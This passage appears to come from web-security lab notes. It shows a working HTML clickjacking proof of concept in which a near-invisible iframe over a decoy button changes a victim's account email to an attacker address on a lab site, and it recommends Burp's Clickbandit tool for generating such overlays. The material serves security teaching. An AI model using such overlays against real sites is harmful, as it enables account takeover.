 ```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:400px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a70006c045af09ec363e38800b000dc.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

## Clickbandit

Although you can manually create a clickjacking proof of concept as described above, this can be fairly tedious and time-consuming in practice. When you're testing for clickjacking in the wild, we recommend using Burp's [Clickbandit](https://portswigger.net/burp/documentation/desktop/tools/clickbandit) tool instead. This lets you use your browser to perform the desired actions on the frameable page, then creates an HTML file containing a suitable clickjacking overlay. You can use this to generate an interactive proof of concept in a matter of seconds, without having to write a single line of HTML or CSS.